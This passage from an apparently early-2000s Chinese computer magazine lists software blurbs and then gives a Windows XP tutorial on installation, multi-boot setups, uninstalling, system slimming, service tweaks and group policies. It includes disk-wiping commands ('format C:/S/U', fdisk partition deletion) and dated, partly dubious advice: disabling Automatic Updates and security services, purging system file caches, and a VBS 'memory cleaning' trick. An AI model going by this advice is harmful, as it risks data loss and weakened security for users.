软件简介：背单词是一件麻烦的事，该软件使用一种简易的方法，帮您记忆单词。此软件内含单词、词组共68628个，如果您能熟练掌握的话，您的英语水平将更进一步。

软件名称：英语八哥——动画学音标 V1.0(\flashenglish.exe)

软件简介：动画学音标的主要功能包括发音规则、重音规则、单元音、双元音、辅音发音五大部分内容，通过Flash动画教学纠正您的英语发音。本软件为免费软件，无须注册即可使用全部功能。

软件名称：Silent Racing V1.0 汉化版(\sr100.zip)

软件简介：Silent Racing是一款红透日本的3D赛车游戏，在各大下载站排行榜雄踞月余。错综起伏的山脊，蓝天白云碧水黄岩，就像是在梦境里赛车。赛车只有一辆，并且贴图还丑丑的，但操纵感却绝对没话说！一辆车还赛什么车？奇怪吧？其实这就是一个自己对自己挑战的游戏，日本目前的最好成绩是7分02秒。

## 擦亮你的视窗 —— Windows XP 应用进阶

学会 Windows XP 的简单操作不难，但要快速掌握 Windows XP 的高级操作方法并用好Windows XP就不那么简单了。其实，深入学习Windows XP的关键在于是否掌握了 Windows XP 应用的精髓，本专题要告诉你的正是深入学习 Windows XP 的关键所在，包括 Windows XP 的安装卸载、系统优化、高级配置技巧、个性化设置、隐含功能、数据备份、网络应用等等。我们将通过对这些知识点的深入剖析，让你从此走上 Windows XP 的应用进阶之路。

## 从零起步 Linux 全接触

Linux之所以能够在Microsoft Windows王朝的统治下发展起来，除了低廉的价格外，强大的功能和稳定的性能才是真正的立足之本。在这个专题中，我们将通过对 Linux 家族中表现出众的 RedHat Linux的详细介绍，把你快速培养成一个熟知Linux安装、设置、管理和应用等全部操作的标准Linux用户。

## 擦亮你的视窗
——Windows XP应用进阶

### 一、Windows XP安装卸载一席谈

#### (一)为Windows XP安装提速

想必许多电脑用户都体验过Windows XP的安装速度了吧？特别是在DOS下安装，漫长的等待简直就是一种痛苦，那么有没有一种办法来加快Windows XP的安装速度呢？答案是肯定的，现在我们就为你介绍几种安装提速的方法。

- 1. DOS下安装莫忘加载“smartdrv.exe”

当系统瘫痪或者电脑没有安装Windows的情况下，必须在纯DOS方式下安装Windows XP。若采用常规的方法安装，仅复制文件就要花费大量的时间。为了提高安装速度，必须把Windows 98中的“himem.sys”和“smartdrv.exe”复制到启动软盘中，同时在启动软盘中的“config.sys”文件中加入“device=himem.sys”代码，并在“autoexec.bat”文件中加入“smartdrv.exe”命令，以便加载磁盘缓存驱动程序。这样一来，可以大大加快Windows XP的安装速度。

> 提示：也可以用Windows 98启动盘引导系统，然后在DOS命令提示符下直接运行“smartdrv.exe”命令。

- 2. 优先考虑在Windows中安装

如果此时电脑中已经安装了Windows（以前版本），建议你在Windows环境中安装Windows XP，因为Windows本身能够管理电脑的众多资源，在Windows下安装Windows XP要比DOS下快一些。

- 3. 光盘引导安装也可提速

Windows XP安装光盘具有引导电脑启动的功能，同时引导时还会自动加载磁盘缓存驱动程序，因此安装速度比较快。具体实现方法为：在开机时进入BIOS，将CD-ROM设定为优先启动，即可从光驱启动进入Windows XP的安装界面。

- 4. 硬盘上安装最理想

众所周知，光盘的读取速度远没有硬盘快，因此可以把Windows XP安装光盘上的文件复制到硬盘上，然后在硬盘上运行安装程序来安装Windows XP，这样可大大提高安装速度。

#### (二)自动安装Windows XP

Windows XP使用起来虽然快速，但是安装过程却相当烦琐，众多的选项需要选择，而且要频繁地重新启动。其实，我们完全可以让电脑自动完成Windows XP的安装。

- 1. 制作自动应答文件

(1) 在Windows XP安装光盘的“\support\tools”文件夹中找到“deploy.cab”文件，然后用WinRAR 3.0将其解压到一个临时文件夹（例如“D:\Autosetup”）中。
(2) 用鼠标双击“setupmgr.exe”文件，弹出【Windows安装管理器】向导窗口，单击【下一步】按钮继续。
(3) 由于要创建应答文件以便实现自动安装，所以应选择【创建新的应答文件】选项，单击【下一步】按钮继续（如图1）。

(4) 在【要安装的产品】中选择【Windows无人参与安装】选项，单击【下一步】按钮继续。
(5) 选择自动应答平台，由于我们要安装的是Windows XP专业版，所以在此选择【Windows XP Professional】选项，单击【下一步】按钮继续。
(6) 选择【Windows安装时用户的交互等级】为【全部自动】，这样才能让Windows XP安装程序使用我们生成的自动应答文件来自动安装。单击【下一步】按钮继续。
(7) 接着在【自定义软件】窗口画面中（如图2）可以输入用户名称和单位等信息，单击【下一步】按钮，再根据向导提示完成显示设置、时区、产品序列号（注意不要填错）、计算机名称、管理员密码、网络组件、工作组（或域）、电话服务、区域设置、语言、浏览器和Shell设置、安装文件夹和安装打印机等设置，大多数项目可以在右侧窗口中调节，非常直观，一般采用默认值即可。
(8) 向导程序运行到最后一步，会提示保存自动应答文件，默认名称为“unattend.txt”。至此，自动应答文件即可制作完成。

- 2. 利用自动应答文件自动安装Windows XP

(1) 在上述保存自动应答文件的文件夹中，将“unattend.txt”和“unattend.bat”两个文件复制到软盘中，然后用记事本程序编辑“unattend.bat”文件，把其中的默认盘符改为电脑中的当前盘符。例如光驱盘符为“F:”，就把“D:\i386”改为“F:\i386”。
(2) 把Windows XP安装光盘插入光驱，事先将BIOS中设置为软盘优先启动，然后用包含以上两个文件的软盘启动电脑，直接运行“unattend.bat”批处理文件，即可完成Windows XP的自动安装。

#### (三)多系统和平共处的方案

Windows XP是Microsoft公司目前推出的最新操作系统，可能众多用户的实际需求不同，还要用到Windows的其他版本，那么如何才能让Windows XP与这些操作系统和平相处呢？现在就给你提供几种多操作系统共存的配置方案。

- 1. Windows XP与DOS并存

或许有的时候在使用Windows XP的同时还需要在纯DOS环境下工作，例如升级BIOS或者修复系统等，但Windows XP采用的是Windows NT内核构建，安装后并没有为用户提供一个纯DOS环境。这不要紧，完全可以实现让Windows XP与DOS在一台电脑中共同生存。具体实现方法如下。

(1) 用Windows 98启动盘引导系统，并通过“sys c:”命令向C盘传送系统文件。重新启动电脑，确认能够将C盘引导到DOS状态。
(2) 然后用Windows 98启动盘加载光盘驱动程序，按正常的方法安装Windows XP即可。当然你也可以通过CMOS设置，用光盘引导来完成安装。

安装成功后，会在启动菜单中默认的“Microsoft Windows XP”菜单下多出一个“Microsoft Windows”选项，由于我们没有安装Windows 98，选中此项就会进入纯DOS环境。

> 提示：在启动菜单中，倘若你对这个菜单项的提示信息不满意的话，可以进行手工修改（例如改为“MS DOS”），具体方法将在下文介绍。

- 2. Windows XP与Windows 98共存

倘若你想让Windows XP与Windows 98共存，可以按如下步骤来完成安装。

(1) 用Windows 98启动盘引导系统，然后用“fdisk.exe”程序把硬盘分成多个逻辑分区并进行格式化。
(2) 用Windows 98启动盘加载光盘驱动程序，然后把Windows 98安装到C盘。
(3) 在Windows 98下启动Windows XP的安装程序，在安装过程中提示你选择分区时，把Windows XP安装到D盘，这样可以避免覆盖Windows 98安装文件夹中的文件。
(4) 安装结束后重新启动电脑，就会出现双重启动菜单，只要选择相应的选项即可进入Windows XP或者Windows 98。

- 3. Windows XP与Windows 2000系统共存

Windows XP与Windows 2000系统共存的方式比较简单，只要先安装Windows 2000，然后再安装Windows XP即可。由于Windows XP和Windows 2000都支持NTFS文件系统，所以它们可以在同一分区内相安无事，具体采用哪种文件方式，你可以自行决定。

- 4. Windows XP与Windows 98、Windows 2000系统和平共处

要让Windows XP与Windows 98、Windows 2000三个系统共存也并不困难，可以通过以下安装步骤来实现。

(1) 首先把Windows 98安装到C盘。
(2) 再将Windows 2000安装到逻辑D盘，具体的分区格式可自行决定。
(3) 最后安装Windows XP，可以和Windows 2000安装在同一分区，也可以安装到其他分区。

- 5. Windows XP与Linux共存

目前使用Linux的用户也越来越多，如何实现Windows与Linux共存便成了广大电脑用户非常关心的问题。下面以全新安装为例，介绍一下如何让Windows XP与Linux实现同机共存的操作步骤。

(1) 首先在BIOS中将软盘设定为优先引导，然后再准备一张含有“fdisk.exe”文件的Windows 98系统引导盘。
(2) 将系统引导到DOS状态，在“A:\>”中运行“fdisk”命令，对硬盘进行分区。根据需要选择适当的分区格式，然后为主分区设置好容量，安装Windows XP的分区大小一般为2~3GB的硬盘空间。

通常情况下，倘若不安装Linux，则应该将剩余的硬盘空间全部分配给扩展分区；如果要安装Linux，则需要在选择扩展分区大小的时候，根据硬盘的大小输入相应的百分数。一般要空出2GB左右的空间，不要进行分区，留待后面安装Linux之用。

(3) 在硬盘上同时建有主分区和扩展分区时，必须对主分区进行激活，否则以后硬盘无法引导系统。硬盘上只有主分区“1”和扩展分区“2”，当选择对主分区“1”进行激活后，即可退出“fdisk”程序，重新启动电脑，对所建立的逻辑盘进行高级格式化。
(4) 对硬盘进行高级格式化的操作是使用DOS系统的“format”（格式化磁盘）命令来完成的，具体方法为：用含有“format.com”文件的Windows 98引导盘将系统引导到“A:\>”命令提示符下，键入“format C:/S/U”将C盘格式化为系统引导盘。format参数具体含义为：“/S”表示格式化的C盘成为系统引导盘；“/U”表示无条件格式化磁盘，格式化将不保留磁盘原先的任何信息，一般第一次格式化磁盘时，可使用这个参数，减少格式化所需的时间。
(5) 现在可以将Windows XP安装到逻辑C盘下，具体安装方法想必大家很熟悉，在此不再赘述。
(6) 安装完Windows XP，接下来就可以安装Linux了。现以安装Red Hat Linux为例，简要说明一下安装过程。 安装Red Hat Linux时可以不对硬盘进行分区，只要用光盘启动即可。如果系统无法识别光驱，可以用Windows 98启动盘引导系统来加载光盘驱动程序，然后执行Red Hat Linux安装光盘中的“install”命令。当出现安装界面后，根据提示选择安装方式即可。不过笔者还是建议选择全新安装，这样比较安全。
① 出现欢迎画面后，单击【继续】按钮，接下来进行键盘、鼠标、语言和安装介质等设置，然后进行硬盘分区。
② Linux为用户提供了现成的分区工具，在此只要为Linux创建三个分区即可。用“Tab”键选择【Add】按钮，回车后屏幕给出【Edit New partition】对话框。
③ 首先在【Mount Point】项中输入这个分区所对应的系统目录“/”（根目录），接着在【Size(Megs)】项中输入分区的大小为“1024MB”。倘若希望在将来的使用中分区容量随着Linux的需要而扩大，可以选取【Growable】选项，并选中Linux的文件分区【Linux native】，然后单击【OK】按钮。这样就成功地为Linux创建了一个分区。
④ 接着采用同样的方法，为Linux增加一个“/boot”分区，大小为“20MB”。最后再为Linux增加一个交换分区，不同的是让“Mount Point”项空着，在【Type】项中选择【Linux Swap】，交换分区的大小一般设置成物理内存的两倍。接下来就是安装程序自动格式化Linux的分区。
(7) 安装LILO

LILO是Linux下的通用引导管理器，它可以引导多种操作系统。在安装LILO时可以将它安装在整个硬盘的MBR上，也可以将其安装在Linux主分区的第一个扇区（BOOT）上。在这里，我们将LILO安装在MBR上。 重新启动电脑后，默认启动方式是Linux引导系统。否则选择引导菜单中“DOS”选项，此时又会出现Windows的启动菜单了。

#### (四)多操作系统安装时的注意事项

(1) 安装多操作系统时，必须按照版本先低后高的原则进行，否则会破坏Windows XP生成的引导记录，造成启动菜单的丢失，无法进入Windows XP系统。
(2) 由于Windows 98无法识别NTFS文件系统，因此当Windows XP与Windows 98共处一个逻辑分区时千万不要将该分区转换为NTFS格式，必须保持原有的分区格式为FAT32。
(3) 由于Windows 98无法识别NTFS文件系统，若要访问Windows XP时必须借助第三方软件来实现（例如NTFS for Windows 98）。

#### (五)安全卸载Windows XP

虽然Windows XP比较稳定，但软件用久了也会出现各种各样的问题，当你想要以比较干净的方式重新安装系统时会发现，Windows XP并没有提供卸载系统的功能，那么怎样才能实现快速、安全地卸载Windows XP呢？现在就给出在各种情况下卸载Windows XP的具体方法。

- 1. 卸载NTFS分区的Windows XP

Windows XP如果安装到NTFS文件系统中，可以采用Windows 98启动盘引导系统，然后使用“fdisk”命令删除NTFS分区，再把它重新分配给主分区，即可释放出Windows XP所占用的磁盘空间，当然也就删除了Windows XP的所有系统文件夹，当再次引导系统后可利用“format”命令格式化原Windows XP所在分区，并用“sys c:”命令将系统文件传送给驱动器C即可完成Windows XP的卸载。

- 2. 卸载与Windows 98共存的FAT32分区Windows XP

倘若两个系统不在同一个分区中，请首先启动Windows 98，然后在资源管理器中删除Windows XP所在分区中的系统文件夹，例如“Windows”和“Documents and Settings”等文件夹，同时也要删除C盘根目录中的“ntldr.ini”和“boot.ini”文件。

最后用Windows 98启动盘引导系统，在DOS提示符“A:\>”下用“sys C:”命令将Windows 98系统文件传送到C盘，以覆盖Windows XP的NT Loader。至此，电脑即可完全恢复到Windows 98单一操作系统时的状态。

- 3. 卸载与Windows 2000共存的Windows XP

如果Windows XP与Windows 2000不在同一分区，只要启动Windows 2000，在资源管理器中删除Windows XP所在分区的系统文件夹如“Windows”、“Program Files”和“Documents and Settings”等即可。

如果Windows XP与Windows 2000安装在同一分区中，则“Windows”和“Documents and Settings”文件夹不能删除，只能删除“Windows”文件夹，最后用鼠标右键单击【我的电脑】图标，选择快捷菜单中的【属性】命令，在弹出的【系统属性】窗口中选择【高级】选项卡（如图3）；接着单击【启动和故障恢复】按钮，在【启动和故障恢复】窗口中选择默认操作系统为【Microsoft Windows 2000 Professional/fastdetect】选项，同时再将【显示操作系统列表】复选框的勾选标记取消（如图4），单击【确定】按钮即可。这样，当再次启动电脑的时候，就是默认的操作系统Windows 2000了。

- 4. 卸载与Windows XP共存的Linux

首先在DOS下运行“fdisk/MBR”命令清除Linux主引导区的引导程序，然后再运行“fdisk”命令删除Linux分区，并激活DOS分区即可。

#### (六)玩转启动菜单

倘若你的电脑已经安装了多个操作系统（Windows 9x/Me/2000/XP），那么如何改变它们的启动顺序呢？如果你对启动菜单的名称不满意或者嫌启动时间过长，又该如何修改呢？现在就为你解答这个问题，具体方法如下。

(1) 在【控制面板】的经典视图模式下，用鼠标双击【系统】图标，弹出【系统属性】窗口。
(2) 选择【高级】选项卡，然后单击【启动和故障恢复】按钮，在【启动和故障恢复】窗口中选择默认操作系统，同时再将【显示操作系统列表】复选框的勾选标记取消，单击【确定】按钮即可。

#### (七)制作启动盘

虽然Windows XP很稳定，但为防万一，最好还是制作一张启动盘在系统发生瘫痪时作为救急之用，在Windows XP环境下制作启动软盘的具体方法为：将软盘插入软盘驱动器，在资源管理器窗口中右键单击软盘驱动器图标，选择快捷菜单中的【格式化】命令，最后在【格式化】窗口的最下边勾选【创建一个MS-DOS启动盘】复选框，单击【开始】按钮即可(如图7)。



### 二、Windows XP系统优化

#### (一)给你的硬盘减减肥

当你安装了Windows XP后，发现自己的硬盘空间被系统吃掉了很多，对硬盘容量小的用户来讲，如何让系统释放所占用的空间呢？现在笔者就为你介绍一剂减肥良方。

### 1.删除不用的文件
- (1)删除驱动器备份“\windows\Driver cache\i386”文件夹中的“Driver.cab”文件，约70MB。
- (2)删除“\Windows\Help”文件夹中的帮助文件，约40MB。
- (3)删除“\Windows\System32\Dllcache”文件夹中的备用DLL文件，约200MB。
- (4)删除“\Windows\Ime”文件夹中不用的输入法文件，如日文、韩文和繁体中文的输入法。

### 2.让SFC命令释放更多空间
若确认系统不会新加入设备，可以把“\windows\system32\dllcache”文件夹内的文件予以删除或设定大小，以释放空间。删除全部文件的命令是“sfc.exe /purgecache”(用sfc.exe /?可查看命令参数的含义)，约300MB。

> 提示:本操作有危险，对系统不熟悉者慎用。

### 3.关闭华特医生(Dr. Watson)
在【开始】→【运行】中输入“drwtsn32”命令。当然也可以通过单击选择【开始】→【程序】→【附件】→【系统工具】→【系统信息】→【工具】→【Dr Watson】菜单命令来激活 Windows XP 的华特医生程序(Dr. Watson)，在这里只保留“转储全部线程上下文”选项(如图 8)。否则一旦程序出错，硬盘读取时间会很久，并占用大量空间。以前发生过类似情况的用户请查找并删除“user.dmp”文件，可节省几十兆的空间。



### 4. 关闭“休眠”功能
在【控制面板】中双击【电源选项】图标，选择【电源选项属性】窗口中的【休眠】选项卡，取消【启用休眠】前的勾选标记(如图 9)，单击【确定】按钮关闭【休眠】功能，可节约约 200MB 的空间。



### 5. 清除磁盘垃圾
在 Windows XP 操作系统运行过程中，常常会产生扩展名为“tmp”、“bak”、“log”、“old”和“txt”等文件，这些文件其实都是可以进行安全删除的。另外，如果不喜欢 Windows XP 中自带的那些墙纸，甚至可以将 Windows 目录下面的“*.bmp”文件也删除。另外，我们也建议把在 Windows\temp 目录下面的临时文件删除掉，因为这些文件都是在安装应用软件的过程中遗留下的垃圾文件。此外还应注意把硬盘中的小文件尽可能地集中起来，然后用 WinZip 等压缩软件将它们压成一个大文件，从而减少磁盘空间的浪费。

#### (二)优化内存
在配置不是很高的电脑中运行 Windows XP，上网冲浪或玩游戏时机器就会变得很慢。这是为什么呢？原来微软为了让你有新的体验，在 Windows XP 中加入了大量的新功能，比如系统还原、远程桌面、自动更新、Internet 时间同步等。这些功能一般用户基本用不上，却白白地耗费了大量内存。下面笔者就介绍几种优化 Windows XP 内存的方法供大家参考。

### 1. 关闭“系统还原”功能
“系统还原”是 Windows 2000 操作系统的一个重要功能，最初仅限于当系统运行出现问题后将系统还原到发生问题前的状态。到了 Windows XP 这种功能又进了一步，除了还原操作系统，还可还原私人数据(例如 Word 文档、绘图资料、E-mail 等，甚至浏览器的历史资料等)。“系统还原”虽然对系统经常出现错误的用户有一定用处，但是它会让你的硬盘处于高度繁忙的状态，因为 Windows XP 要随时记录操作以便日后还原。对于不是经常出现系统故障的用户来说，可以考虑关闭还原功能，既节省了硬盘空间，同时也减少了内存占用。具体步骤如下。



- (1) 用鼠标右键单击【我的电脑】，选择快捷菜单中的【属性】命令，弹出【系统属性】窗口。
- (2) 选择【系统还原】选项卡(如图10)，将【在所有驱动器上关闭系统还原】复选框打上勾选标记，然后单击【确定】按钮即可。

### 2. 关闭“自动更新”功能
这个功能对全天联网状态的用户来说比较适合，但是考虑到在宽带还未普及的情况下，大多数家庭都是拨号上网，没有理由让这个功能一直开着。笔者建议你将默认的自动升级改为手动升级方式，关闭“自动更新”功能的具体操作方法为：在【系统属性】窗口中选择【自动更新】选项卡（如图11），然后在【通知设置】栏中选择【关闭自动更新。我将手动更新计算机】选项，单击【确定】按钮即可。



### 3. 关闭“远程桌面”功能
所谓“远程桌面”就是允许别人在另一台机器上访问你的桌面。可以说，在某一个网络环境，比如单位的局域网中，这个功能很有用（要在防火墙没有限制的情况下）。当电脑出现问题的时候可以通过这个功能向朋友求助，对方就可以直接通过“远程桌面”来访问你的电脑来帮你解决问题。但是，倘若是家用电脑，这个功能就显得多余了，况且电脑也不是随时都有问题，因此建议你还是尽早关闭它，否则就是白白浪费内存了！具体方法为：在【系统属性】窗口中选择【远程】选项卡（如图12），然后在【远程桌面】栏中将【允许用户远程连接到这台计算机】复选框的勾选标记去掉，单击【确定】按钮即可。



### 4. 优化“视觉效果”设置
Windows XP的操作界面确实很华丽，不过好看的背后却是以消耗大量内存作为代价的，倘若你的内存还没有达到256MB以上，最好还是优化一下你的“视觉效果”功能。具体方法为：
- (1)在【系统属性】窗口中选择【高级】选项卡（如图13），在【性能】栏中单击【设置】按钮，弹出【性能选项】窗口。



- (2)在【视觉效果】选项卡中选择【自定义】选项（如图14），然后在下面的列表中可以看到外观的所有设置，可以手工去掉一些不需要的功能。

### 5. 优化“启动和故障恢复”设置
如果系统崩溃时你的硬盘使劲儿的响，那是因为 Windows XP 正在写 DUMP 文件，倘若不打算把这个文件寄给 Microsoft 公司，笔者还是建议你将“启动和故障恢复”功能关闭。

具体方法是：在【系统属性】窗口中选择【高级】选项卡，然后在【启动和故障恢复】栏中单击【设置】按钮，在其中的【系统失败】一栏中确保【将事件写入系统日志】、【发送管理警报】和【自动重新启动】复选框无勾选标记，并且将【写入调试信息】下拉列表中的选择【小内存转储(64KB)】选项(如图15)。



### 6. 禁用“错误汇报”功能
这个功能可以在系统发生错误时自动收集错误资料，然后发送给 Microsoft 公司，以便进一步完善操作系统。但是对普通用户来说，这是一个即浪费电话费又不实用的功能。

关闭这一功能的具体方法为：在【系统属性】窗口中选择【高级】选项卡，单击【错误报告】按钮，然后在【错误汇报】窗口中选择【禁用错误汇报】功能（如图16）。



### 7. 关闭“Internet 时间同步”功能
如果启用了“Internet 时间同步”功能，你的电脑时钟就会每周和 Internet 时间服务器进行一次同步。这也是一个没多大用途的功能。还是关闭的为好，具体方法为：单击选择【开始】→【控制面板】命令，在经典视图模式下双击【控制面板】窗口中的【日期和时间】图标，然后选择【日期和时间属性】窗口中的【Internet 时间】选项卡(如图17)，确保【自动与 Internet 时间服务器同步】复选框不被勾选。



### 8. 整理你的内存
这里需要用到一个简单的“VBS”的小程序，下面就先用记事本程序来建立这个小程序。

当你的电脑内存不少于64MB时，打开记事本程序，在空文档中输入如下一行代码：
`Mystring = Space (16000000)`

然后将文档另存为 “memory.vbs” 文件。如果系统中已经安装了 Visual Basic 4.0 (或更高的版本)，则可随时通过鼠标双击来运行这个小程序来完成内存的整理。

当电脑的内存大于 128MB 时，则将上述小程序的代码行替换成 “Mystring = Space (80000000)”，然后再对内存进行整理。如果出现了系统错误的话，再改回到上面的代码行试试看。

> 提示：在运行这个小程序之前，应该先把其他所有的程序关闭。

当完成以上设置后，可以同时按下【Ctrl+Alt+Del】组合键，打开【Windows 任务管理器】对话框，选择【性能】选项卡，在右下角可以看到内存的使用情况(如图18)，经过以上优化后，内存占用就只有几十兆了，系统运行速度将会快一些。



此外，优化内存优化还有一些比较实用的方法(例如不使用壁纸和屏幕保护程序等)，这里就不一一阐述了。

#### (三)对Windows XP的服务进行清理
每次启动 Windows XP后，随之也启动了许多服务；有些服务对于大多数用户来说是没有用的，并且占用了内存，关掉它们是一个很好的选择。请选择【开始】→【运行】菜单命令，然后在【运行】对话框内输入命令 “services.msc”，打开【服务】窗口(如图19)。下面来看一下哪些服务有必要关掉。

“Clipbook Server”(文件夹服务器)：这个服务允许你们网络上的其他用户看到你的文件夹。建议你把它改为手动启动，然后再使用其他程序在网络上发布信息。

“Messenger”(消息)：在网络上发送和接收信息。倘若关闭了 Alerter，那么可以安全地把它改为手动启动。

“Printer Spooler”(打印后台处理程序)：如果没有配置打印机，建议改为手动启动或干脆关闭它。



“Error Reporting Service”(错误报告)：服务和应用程序在非标准环境下运行时提供错误报告。建议改为手动启动。

“Fast User Switching Compatibility”(快速用户切换兼容性)：建议改为手动启动。

“Automatic Updates”(自动更新)：这个功能在前面已经讲过了，在这里可以改为手动启动。

“Net Logon”(网络注册)：处理像注册信息那样的网络安全功能，可以把它改为手动启动。

“Network DDE” 和 “Network DDE DSDM”(动态数据交换)：除非你准备在网上共享你的 Office，否则你应该把它改为手动启动。还应该注意这和在通常的商务设定中使用 Office 不同。

“NT LM Security Support”(NT LM 安全支持提供商)：在网络应用中提供安全保护。建议你把它改为手动启动。

“Remote Desktop Help Session Manager”(远程桌面帮助会话管理器)：建议改为手动启动。

“Remote Registry”(远程注册表)：使远程用户能修改你电脑上的注册表设置。建议改为手动启动。

“Task Scheduler”(任务调度程序)：使用户能在此电脑上配置和制定自动任务的日程，它计划每星期的碎片整理等任务。除非你实在很需要此项服务，否则应该将它改为手动启动。

“Uninterruptible Power Supply”(不间断电源)：这是负责管理 UPS 的服务。如果你不用 UPS，应该把它改为手动启动或干脆关闭它。

“Windows Image Acquisition (WIA)”(Windows 图像获取 (WIA))：为扫描仪和照相机提供图像捕获，如没有这些设备，建议改为手动启动或干脆关闭它。

> 提示:必须以管理员或“Administrators”组成员的身份登录才能完成该过程。如果电脑是与网络连接的，则网络策略设置也可以阻止你完成这个步骤。

#### (四)有关硬件优化

### 1. 优化页面文件
页面文件实际上就是 Windows XP 使用的虚拟内存的文件。在系统根目录下有一个为“pagefile.sys”文件，Windows XP 为了稳定起见，默认值总是设得很大，倘若你的硬盘空间不是很大的话，完全可以把它设置得小一些。具体方法为：
- (1)进入【控制面板】→【系统】→【高级】→【性能】→【设置】→【高级】→【虚拟内存】→【更改】，打开虚拟内存设置窗口(如图20)。



- (2)首先确定你的页面文件在哪个驱动器盘符，然后将别的盘符驱动器的页面文件全部禁用。页面文件应设为内存容量的1.5倍，倘若你的内存比较大，占用的空间也是很可观的。所以，建议你在内存容量在256MB以下就设置为1.5倍；倘若在512MB以上，设置为内存容量的一半也完全可行，在中间的设为和内存容量相等即可。

### 2. 用NTFS格式化硬盘
使用NTFS的文件系统格式安装 Windows XP，NTFS文件系统较FAT32多了文件保密、压缩、使用权限及磁盘配额等管理功能。因此在文件安全及保密性方面来说要比FAT32高。另外，在NTFS文件系统下安装的 Windows XP 会将不常用的文件压缩起来，所以跟FAT32相比又节省了磁盘空间。再者，NTFS在运行效能上较FAT32文件系统要好许多。因此，笔者建议大家使用NTFS文件系统来安装 Windows XP 系统。

### 3. 把IDE设备设置为DMA传输模式
由于某些原因，Windows XP 有时会在 IDE 通道上使用 PIO 并行输入输出传输模式，而不是 DMA 模式。如果有这种情况，你可以手动把 IDE 通道改为 DMA 模式，这样可以减少该设备占用的 CPU 周期。
- (1)用鼠标右键单击【我的电脑】，选择快捷菜单的【属性】命令，在【系统属性】窗口中选择【硬件】选项卡，然后单击【设备管理器】按钮，打开【设备管理器】窗口(如图21)。



- (2)单击展开【IDE ATA/ATAPI 控制器】分支，双击【主要 IDE 通道】选项，在弹出的属性设置窗口中选择【高级设置】选项卡，检查【传输模式】下拉菜单，把它们全部设为【DMA(若可用)】(如图22)，单击【确定】按钮。再以同样的方式修改其他IDE控制器。



### 4. 定期进行磁盘整理
如果硬盘长期在使用，而且经常安装及删除程序，就会造成扇区中产生连续的文件碎片，以致于硬盘在搜寻资料时要花上较长的时间，从而影响了电脑的性能。因此，定期做好磁盘整理工作是很有必要的。Windows XP 在磁盘整理方面与 Windows 98 的整理程序相比有显著的进步，至少不再像以前要花上许多时间，如果你觉得 Windows 本身的整理程序不好，也可以使用 Norton 的 Speeddisk 等其他程序。用 Windows XP 自带程序整理磁盘的具体方法为：进入到【我的电脑】中，在你要整理的磁盘上单击鼠标右键，选择快捷菜单的【属性】命令，在弹出的驱动器属性窗口中选择【工具】选项卡，单击【开始整理】按钮，然后在【磁盘碎片整理程序】窗口中再单击【碎片整理】按钮即可（如图 23）。



### 三、 Windows XP 高级配置技巧

#### (一) 用 MMC 管理 Windows XP
在 Windows XP 中，像“Web 地址的链接”、“本地用户和组”、“磁盘碎片整理程序”以及“本地计算机”策略等管理单元都可以用 MMC 集中来管理。这极大地方便了电脑用户对 Windows XP 的维护和管理，下面就以添加“电脑爱好者网站”项目为例来介绍一下如何将一些管理单元添加到 MMC 中。
- (1) 单击【开始】→【运行】命令，在弹出的对话框中键入【mmc】，然后单击【确定】按钮。打开 Microsoft 管理控制台窗口（如图 24）。
- (2) 选择【控制台】菜单下的【添加/删除管理单元】命令。
- (3) 在【添加/删除管理单元】窗口的【独立】选项卡中，单击【添加】按钮。
- (4) 接下来会打开【添加独立管理单元】对话框，并在【可用的独立管理单元】列表中选择【Web 地址的链接】选项，单击【添加】按钮。



- (5) 然后进入【Web 地址的链接】向导窗口，在【目标 URL：】文本框内输入某个 Web 站点的地址（例如“http://www.cfan.cn.net”），然后单击【下一步】按钮继续。
- (6) 在新出现的画面中为 URL 参照选择一个名字，例如在文本框中输入“电脑爱好者网站”，然后单击【完成】按钮。这样，“电脑爱好者网站”即可作为一个结点被添加到 MMC 中，同时在右侧窗格中出现了该站点的主页。
- (7) 按照类似的方法，也可以将“本地用户和组”、“磁盘碎片整理程序”以及“‘本地计算机’策略”等管理单元也添加到 MMC 中（如图 25）。



- (8) 然后选择【文件】→【另存为】菜单命令，将其保存到指定的文件夹中（例如“桌面”）。

#### (二) 软件限制策略
在上文创建的 MMC 控制台左侧窗格中，逐级展开【“本地计算机”策略】→【计算机配置】→【Windows 设置】→【安全设置】→【软件限制策略】分支，你会在其中看到【安全级别】和【其它规则】两个选项，用鼠标单击【安全级别】，然后用鼠标双击右侧窗格中的【不允许的】策略项，在弹出的属性设置窗口中，若单击【设为默认值】按钮，则表示无论用户的访问权限如何，软件都不会运行（如图 26）。

#### (三)限制程序在 Windows XP 帮助中启动

在 Windows XP 的 “帮助文件” 中，有某些系统应用程序的链接，只要单击链接便能启动运行相应的程序，这虽然完善了帮助系统，但同时也会因此而带来系统的安全隐患。那么如何限制它们的启动呢？具体操作步骤如下：

- 1. 在MMC控制台左侧窗格中逐级展开【‘本地计算机’策略】→【用户配置】→【管理模板】→【系统】分支，然后在右侧窗格中用鼠标双击【限制这些程序从帮助启动】策略项，弹出【限制这些程序从帮助启动属性】窗口。
- 2. 在【设置】选项卡中单击【已启用】单选按钮。然后在下面的文本框中输入将要限制启动的程序名称(例如 “paint.exe” 等)(如图27)，需要注意的是多个程序名称之间要以半角的逗号隔开。最后单击【确定】按钮即可。

#### (四)只运行 Windows XP 指定的程序

在实际应用过程中，想必会遇到这样一种情况，比如，你想让孩子除了能运行指定的学习软件外，其它的程序(例如游戏软件)一律禁止运行，要实现这个功能，可以按如下方法进行设定。

- 1. 在MMC控制台左侧窗格中逐级展开【‘本地计算机’策略】→【用户配置】→【管理模板】→【系统】分支，然后在右侧窗格中用鼠标双击【只运行许可的Windows应用程序】策略项，弹出【只运行许可的Windows应用程序属性】窗口。
- 2. 在【设置】选项卡中选择【已启用】选项，然后单击下面的【显示】按钮，弹出【显示内容】窗口。
- 3. 单击【添加】按钮，弹出【添加项目】对话框，在文本框内输入“Winword.exe”(如图28)，然后连续三次单击【确定】按钮即可。

这样，除了能够运行 Word 以外，其它的应用程序就不能运行了。

> 提示：这个设置只能防止用户从 Windows 资源管理器启动程序。无法防止用户以其它方式启动程序，例如任务管理器，因为它是从系统启动程序的。如果用户可以访问 “命令提示字符”(Cmd.exe) 的话，这个设置也无法防止用户从命令窗口启动那些在 Windows 资源管理器中被禁止运行的程序。

### 四、打造个性化 Windows XP

#### (一)为 Windows XP 登录画面变变脸

Windows XP的登录画面设计的非常漂亮，不过你想不想拥有一个更加个性化、更加完美的登录画面呢？通过修改 Windows XP 中的相关文件，这完全可以轻松实现，现在，我们就来介绍一下如何让电脑登录画面变个脸，具体方法如下。

- 1. 首先到“http://www.themexp.org”站点下载你喜欢的登录画面方案，然后将压缩包文件解压到一临时文件夹中。
